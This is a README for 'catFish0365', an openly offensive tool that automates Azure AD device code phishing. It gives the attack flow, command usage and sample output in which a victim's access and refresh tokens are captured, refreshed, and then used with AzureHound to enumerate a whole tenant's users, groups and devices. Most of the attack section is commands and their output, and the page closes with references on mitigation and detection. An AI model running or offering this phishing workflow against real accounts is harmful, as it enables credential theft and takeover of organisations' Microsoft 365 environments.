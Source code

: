 # catFish0365

<img src="images/catfish.png" width="300px">

***`catFish0365` is a simple program to automate device code phishing attacks.***

## Attack Flow

 * Step 1: The program generates a user code by requesting the [Azure AD devicecode endpoint](https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0)
 * Step 2: The user code is sent to the victim (e.g. phishing email sent to the victim)
 * Step 3: The victim opens phishing email and inputs the user code by visiting the [devicelogin url](https://microsoft.com/devicelogin)
 * Step 4: the victim logs into his account
 * Step 5: The program polls the Azure AD for the authentication status until it gets his refresh and access tokens (successfull login) by requesting the [OAuth endpoint](https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0)

## Usage
```shell
Usage: catFish0365 <command>

A tool to automate device code phishing attacks by @froyo75

Flags:
  -h, --help                                               Show context-sensitive help.
  -c, --clientid="d3590ed6-52b3-4102-aeff-aad2292ab01c"    The Application (client) ID of an Azure App to target (default: d3590ed6-52b3-4102-aeff-aad2292ab01c).
  -r, --resource="https://graph.windows.net"               The resource to request access tokens.
  -o, --out-path=STRING                                    Logging output to a specific file.
  -v, --version                                            Print version information and quit.

Commands:
  exploitdcauth
    Launch device code phishing attack.

  getaccesstoken <refreshtoken>
    Get a new access token for the given clientid and resource using the given refresh token.

Run "catFish0365 <command> --help" for more information on a command.

catFish0365: error: expected one of "exploitdcauth",  "getaccesstoken"
```

### To perform the device code phishing attack
```shell
./catFish0365 exploitdcauth
10 Apr 2023 17:41:52 INF [*] Generating a new user code
10 Apr 2023 17:41:55 INF [+] User Code => CKQUNSU3H (https://microsoft.com/devicelogin)
10 Apr 2023 17:41:55 DBG [*] Authorization Pending...
10 Apr 2023 17:43:31 DBG [*] Authorization Succeeded !
10 Apr 2023 17:43:31 INF [+] TID: 9188040d-6c67-4c5b-b112-36a304b66dad
10 Apr 2023 17:43:31 INF [+] APPID: d0beb0cf-dd33-40ba-9c31-08f498437115
10 Apr 2023 17:43:31 INF [+] OID: 4af8c092-9633-4547-9e96-c32b09ea022b
10 Apr 2023 17:43:31 INF [+] AMR: pwd, mfa
10 Apr 2023 17:43:31 INF [+] UPN: jdoe@contoso.com
10 Apr 2023 17:43:31 INF [+] NAME: John Doe
10 Apr 2023 17:43:31 INF [+] FAMILY NAME: Doe
10 Apr 2023 17:43:31 INF [+] GIVEN NAME: John
10 Apr 2023 17:43:31 INF [+] IP ADDRESS: 20.81.111.85
10 Apr 2023 17:43:31 INF [+] REGION: EU
10 Apr 2023 17:43:31 INF [+] Access Token => eyJ0[...]AMJA
10 Apr 2023 17:43:31 INF [+] Refresh Token => 0.AT[...]hoK4
```

### To get a new Azure AD access token for the given clientid `d3590ed6-52b3-4102-aeff-aad2292ab01c` (Microsoft Office) and resource `https://graph.windows.net` using the given refresh token 
```shell
 ./catFish0365 getaccesstoken 0.AT[...]hoK4
10 Apr 2023 17:58:45 INF [*] Getting a new access token for the given resource: https://graph.windows.net
10 Apr 2023 17:58:46 DBG [*] Successfully got a new access token !
10 Apr 2023 17:58:46 INF [+] Access Token => eyJ0[...]qEWQ
10 Apr 2023 17:58:46 INF [+] Refresh Token => 0.AT[...]e3QY
```

### To start [azurehound](https://github.com/BloodHoundAD/AzureHound) data collection using the acquired refresh token
```shell
azurehound.exe list --tenant "contoso.com" -r 0.AT[...]hoK4  -o output.json
AzureHound v1.2.0
Created by the BloodHound Enterprise team - https://bloodhoundenterprise.io
2023-04-10T18:22:39+02:00 INF finished listing all users count=355
2023-04-10T18:22:39+02:00 INF finished listing all apps count=34
2023-04-10T18:22:39+02:00 INF finished listing all groups count=48
2023-04-10T18:22:39+02:00 INF warning: unable to process azure management groups; either the organization has no management groups or azurehound does not have the reader role on the root management group.
2023-04-10T18:22:39+02:00 INF finished listing all management group user access admins
2023-04-10T18:22:39+02:00 INF finished listing all management group owners
2023-04-10T18:22:39+02:00 INF finished listing all management group descendants
2023-04-10T18:22:40+02:00 INF finished listing all tenants count=3
2023-04-10T18:22:40+02:00 INF finished listing all subscriptions count=0
2023-04-10T18:22:40+02:00 INF finished listing all function apps
2023-04-10T18:22:40+02:00 INF finished listing all key vaults
2023-04-10T18:22:40+02:00 INF finished listing all subscription user access admins
2023-04-10T18:22:40+02:00 INF finished listing all storage accounts
2023-04-10T18:22:40+02:00 INF finished listing all automation accounts
2023-04-10T18:22:40+02:00 INF finished listing all resource groups
2023-04-10T18:22:40+02:00 INF finished listing all workflows
2023-04-10T18:22:40+02:00 INF finished listing all virtual machines
2023-04-10T18:22:40+02:00 INF finished listing all subscription owners
[...]
2023-04-10T18:48:55+02:00 INF finished listing members for all groups
2023-04-10T18:48:57+02:00 INF finished listing all devices count=975
2023-04-10T18:48:57+02:00 INF finished listing all device owners
2023-04-10T18:49:20+02:00 INF finished listing all service principals count=788
2023-04-10T18:49:20+02:00 INF finished listing all service principal owners
2023-04-10T18:49:20+02:00 INF finished listing all app role assignments
2023-04-10T18:49:20+02:00 INF collection completed duration=46.8867399s
```

## References

Microsoft OAuth Device Code Phishing:
 * [Microsoft 365 OAuth Device Code Flow and Phishing](https://www.optiv.com/insights/source-zero/blog/microsoft-365-oauth-device-code-flow-and-phishing)
 * [The Art of the Device Code Phish](https://0xboku.com/2021/07/12/ArtOfDeviceCodePhish.html)

Framework to abuse Azure JSON Web Token (JWT):
 * [TokenTactics](https://github.com/rvrsh3ll/TokenTactics)
 * [AADInternals](https://github.com/Gerenios/AADInternals)

Mitigation & Detection methodology:
 * [Mitigation of Microsoft OAuth Device Code Phishing](https://www.optiv.com/insights/source-zero/blog/microsoft-365-oauth-device-code-flow-and-phishing)
 * [Detection Methodology](https://www.inversecos.com/2022/12/how-to-detect-malicious-oauth-device.html)

